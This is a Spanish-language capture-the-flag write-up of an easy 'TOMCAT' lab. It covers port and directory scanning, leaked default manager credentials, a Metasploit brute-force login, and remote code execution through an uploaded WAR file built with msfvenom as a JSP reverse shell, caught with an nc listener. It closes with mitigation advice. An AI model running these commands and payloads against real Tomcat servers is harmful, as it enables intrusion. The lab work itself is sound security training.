









<h1 align="center">[Writeup] TOMCAT - Reporte de Vulnerabilidad</h1>

**Categoría:** Web / Descubrimiento de Credenciales / Escalada de Privilegios

**Autor:** SBZTNGNR

**Plataforma**: WhoAmI-Labs.com

---

# Descripción
"Laboratorio pedagógico de Web Exploit (Nivel Easy). Diseñado para auditar vectores prácticos en entornos reales. El reto involucra técnicas de: TOMCAT, requiriendo obtener acceso inicial y comprometer el sistema."

---

## 1. 🔍 Fase de Reconocimiento

El objetivo inicial fue identificar los servicios activos en la dirección IP del objetivo (**172.17.0.2**).

### Escaneo de Puertos y Servicios

Se utilizó **Nmap** para identificar puertos abiertos y versiones de software.

```
nmap -sV -sC --open -p- --min-rate 1000 172.17.0.2 -oN scan_tomcat.txt
```

- **Resultado:** Se identificó únicamente el puerto **8080/tcp** abierto, corriendo un servicio **Apache Tomcat 9.0.65**.



---

## 2. 🌐 Enumeración Web

Al tratarse de un servidor de aplicaciones, procedimos a buscar directorios y paneles de gestión ocultos.

### Descubrimiento de Directorios

Utilizamos **Gobuster** para identificar rutas críticas en el servidor.

```
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/wordlists/dirb/common.txt
```

- **Rutas Halladas:**

- `/manager`: Panel de administración de aplicaciones.
- `/host-manager`: Panel de gestión de hosts virtuales.
- `/docs` y `/examples`: Documentación y servlets de ejemplo.



---

## 3. 🔑 Obtención de Credenciales

Identificamos dos métodos para obtener acceso al panel de administración.

### Método A: Fuga de Información (Information Leakage)

Al intentar acceder a `/host-manager`, el servidor devolvió un error **403 Forbidden**. Sin embargo, la página de error por defecto contenía ejemplos de configuración del archivo `tomcat-users.xml`.

- **Credenciales expuestas:** `tomcat` : `s3cret`



### Método B: Fuerza Bruta con Metasploit

Simulamos un escenario donde no hay fuga de información, utilizando un ataque de diccionario para adivinar credenciales.

```
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 172.17.0.2
set RPORT 8080
run
```

- **Resultado:** Se identificaron las credenciales `admin` : `tomcat`.

- **Análisis Técnico:** Descubrimos que `admin` tenía el rol `manager-script` (funciona vía terminal/API), mientras que `tomcat` tenía el rol `manager-gui` (funciona vía navegador).


## 4. 🚀 Fase de Explotación

Una vez dentro del panel de control, procedimos a obtener ejecución remota de comandos (RCE).

### Técnica 1: Explotación Automática (Metasploit)

Utilizamos un módulo que automatiza la creación y subida de un archivo malicioso.

```
use exploit/multi/http/tomcat_mgr_upload
set HttpUsername tomcat
set HttpPassword s3cret
set RHOSTS 172.17.0.2
set RPORT 8080
run
```



### Técnica 2: Explotación Manual (msfvenom + Deploy)

Para mayor control y evasión, generamos manualmente un paquete de aplicación web (**WAR**).

1. **Generación del Payload:**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f -o shell.war
```



- **Despliegue:** Se subió el archivo `shell.war` a través de la sección **"WAR file to deploy"** en el Manager HTML.

- **Ejecución:** Al acceder a `http://172.17.0.2:8080/shell/`, se activó la Reverse Shell.


De regreso a la shell, nos ponemos a la escucha en el puerto 4444:

```
nc -lvnp 4444
```



## 5. 🚩 Post-Explotación

Tras establecer la conexión, exploramos el sistema para recuperar la evidencia del compromiso.

- **Comando de lectura:** `cat /flag.txt` (o la ruta correspondiente).
- **Flag capturada:** `TOMCAT{brut3_f0rc3_m4n4g3r_upl04d_w4r}`

## 💡 Conclusiones y Mitigación

1. **Gestión de Credenciales:** Nunca utilizar contraseñas por defecto como `s3cret` o `tomcat`.

2. **Hardening de Errores:** Deshabilitar las páginas de error por defecto de Tomcat para evitar la filtración de ejemplos de configuración.

3. **Principio de Menor Privilegio:** Como vimos con el usuario `admin`, es vital separar los roles de GUI y Script para limitar la superficie de ataque de un intruso.
